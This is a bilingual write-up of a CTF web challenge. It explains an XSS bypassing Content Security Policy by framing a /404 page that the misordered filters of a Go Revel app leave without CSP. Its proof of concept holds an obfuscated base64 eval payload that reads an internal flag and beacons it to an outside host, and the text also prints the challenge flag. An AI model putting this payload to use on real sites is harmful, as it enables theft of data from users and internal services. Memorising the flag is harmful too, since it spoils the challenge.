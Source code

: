 # web | novosti

![novosti share page](screenshots/novosti.png)

## Information

Даже в такие тяжёлые времена, как сейчас, людям нужна информация. Мы решили запустить свой новостной сайт, но только так, чтобы об этом не узнали сам-знаешь-кто. Надеемся, очевидцы будут присылать нам новости, чтобы было, что публиковать. Не самим же искать анонсы, в самом-то деле...

Even in hard times like these, people need information. We have decided to start our own news site, but only so that you-know-who doesn't find out about it. We hope that eyewitnesses will send us news so that we have something to publish. It's not like we have to look for announcements ourselves, really....

[https://novosti-3d5d54b8c9f9f81aabcf60563021845f.ctfcup-2023.ru](https://novosti-3d5d54b8c9f9f81aabcf60563021845f.ctfcup-2023.ru)

## Deploy

```sh
cd deploy
NOVOSTI_FLAG="ctfcup{flag}" docker compose -p web-novosti up --build -d
```

## Public

Provide zip file: [public/novosti.zip](public/novosti.zip).

## TLDR

Classic XSS task with CSP bypass by framing a `40x` page with missing CSP.

## Writeup (ru)

На странице просмотра предложенных новостей, которая доступна только админу, присутствует XSS из-за использованного метода `raw`, который вставит переданный ему аргумент не применяя какой-либо санитизации ([deploy/service/app/views/Admin/View.html#L7](./deploy/service/app/views/Admin/View.html#L7)). К сожалению, приложение имеет достаточно строгую CSP политику, которая выставляется в фильтре, устанавливаевом при инициализации приложения в файле [deploy/service/app/init.go](deploy/service/app/init.go):

```go
var HeaderFilter = func(c *revel.Controller, fc []revel.Filter) {
	c.Response.Out.Header().Add("X-Frame-Options", "SAMEORIGIN")
	c.Response.Out.Header().Add("Content-Security-Policy", "default-src 'self'; base-uri 'none'; object-src 'none'; script-src 'self' 'unsafe-inline' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/; style-src 'self' 'unsafe-inline'; frame-src 'self' https://www.google.com/recaptcha/ https://recaptcha.google.com/recaptcha/;")

	fc[0](c, fc[1:])
}
```

Данная CSP политика не позволяет инициировать соединения к каким-либо ресурсам, кроме самого сайта (правило `default-src 'self'` используется в качестве `connect-src`, т.к. оно в явном виде не присутствует), что необходимо для решения таска, так как флаг доступен в локальной сети на сервисе `files`, который содержит nginx, раздающий файл именно с необходимой нам CORS-политикой, "`Access-Control-Allow-Origin http://service:9000`".

Однако, приложение применяет эти фильтры в не совсем корректном порядке:

```go
func init() {
	revel.Filters = []revel.Filter{
		revel.PanicFilter,             // Recover from panics and display an error page instead.
		revel.RouterFilter,            // Use the routing table to select the right Action
		revel.FilterConfiguringFilter, // A hook for adding or removing per-Action filters.
		revel.ParamsFilter,            // Parse parameters into Controller.Params.
		revel.SessionFilter,           // Restore and write the session cookie.
		revel.FlashFilter,             // Restore and write the flash cookie.
		revel.ValidationFilter,        // Restore kept validation errors and save new ones from cookie.
		filters.I18nFilter,            // Resolve the requested language
		HeaderFilter,                  // Add some security based headers
  ...
```

Из-за чего ответ на любые запросы, обработка которых не дойдёт до этого фильтра, не будут содержать CSP политику. Так, например, запрос на любой несуществующий эндпоинт, то есть тот, который не определён в файле `routes` фреймворка ([deploy/service/conf/routes](deploy/service/conf/routes)), например `/404`, вернёт ответ без заголовка `Content-Security-Policy`.

Благодаря этому можно создать `iframe` на такую страницу, после чего на ней уже исполнить нужный JS код без каких-либо ограничений. POC:

```html
<script>
  const iframe = document.createElement("iframe");
  iframe.src = "/404";
  document.body.appendChild(iframe);
  setTimeout(() => {
    iframe.contentWindow.document.body.innerHTML = `<img src=x onerror="eval(atob('ZmV0Y2goImh0dHA6Ly9maWxlczo4MDgwL2ZsYWciKS50aGVuKHI9PnIudGV4dCgpKS50aGVuKHQ9Pm5hdmlnYXRvci5zZW5kQmVhY29uKCJodHRwOi8vcmVuYm91LnJ1Iix0KSk7'))" />`;
  }, 1000);
</script>
```

Полноценный эксплоит должен быть написан без переноса строк, и доступен в файле [solve/xss.txt](solve/xss.txt).

## Writeup (en)

An XSS is present on the suggested news review page, which is available to the admin, due to usage of the `raw` method inside the page's template, which inserts the given argument without performing any sanitization ([deploy/service/app/views/Admin/View.html#L7](./deploy/service/app/views/Admin/View.html#L7)). Sadly, the application contains a pretty strict CSP policy, which is set inside a filter, specified during the initialization of the app in [deploy/service/app/init.go](deploy/service/app/init.go):

```go
var HeaderFilter = func(c *revel.Controller, fc []revel.Filter) {
	c.Response.Out.Header().Add("X-Frame-Options", "SAMEORIGIN")
	c.Response.Out.Header().Add("Content-Security-Policy", "default-src 'self'; base-uri 'none'; object-src 'none'; script-src 'self' 'unsafe-inline' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/; style-src 'self' 'unsafe-inline'; frame-src 'self' https://www.google.com/recaptcha/ https://recaptcha.google.com/recaptcha/;")

	fc[0](c, fc[1:])
}
```

This CSP policy doesn't allow initiation of connections to any resources besides the website itseld (the `default-src 'self'` rule is used for `connect-src` since it isn't present), which is needed to solve the task, as the flag is hosted in the local network on the `files` service, which contains an nginx serving files with the exact CORS-policy that we need, "`Access-Control-Allow-Origin http://service:9000`".

However, the application runs its filters in an incorrect order:

```go
func init() {
	revel.Filters = []revel.Filter{
		revel.PanicFilter,             // Recover from panics and display an error page instead.
		revel.RouterFilter,            // Use the routing table to select the right Action
		revel.FilterConfiguringFilter, // A hook for adding or removing per-Action filters.
		revel.ParamsFilter,            // Parse parameters into Controller.Params.
		revel.SessionFilter,           // Restore and write the session cookie.
		revel.FlashFilter,             // Restore and write the flash cookie.
		revel.ValidationFilter,        // Restore kept validation errors and save new ones from cookie.
		filters.I18nFilter,            // Resolve the requested language
		HeaderFilter,                  // Add some security based headers
  ...
```

Which is why the response to any requests, the handling of which doesn't reach this filter, will not contain the CSP policy. This way, any request to an unexistent endpoint, which is any route not defined in the framework's `routes` file ([deploy/service/conf/routes](deploy/service/conf/routes)), for example `/404`, will result in a response without the `Content-Security-Policy` header.

Thanks to this it is possible to create an `iframe` leading to such page, and then run any JS codes in the iframe without any further limits. POC:

```html
<script>
  const iframe = document.createElement("iframe");
  iframe.src = "/404";
  document.body.appendChild(iframe);
  setTimeout(() => {
    iframe.contentWindow.document.body.innerHTML = `<img src=x onerror="eval(atob('ZmV0Y2goImh0dHA6Ly9maWxlczo4MDgwL2ZsYWciKS50aGVuKHI9PnIudGV4dCgpKS50aGVuKHQ9Pm5hdmlnYXRvci5zZW5kQmVhY29uKCJodHRwOi8vcmVuYm91LnJ1Iix0KSk7'))" />`;
  }, 1000);
</script>
```

For actual exploitation the exploit needs to be written without line breaks, and is available in the file [solve/xss.txt](solve/xss.txt).

## Domain

https://novosti-3d5d54b8c9f9f81aabcf60563021845f.ctfcup-2023.ru

## Cloudflare

Yes

## Flag

ctfcup{b4by-1fr4m3-x55-a4371ea843fc145f}

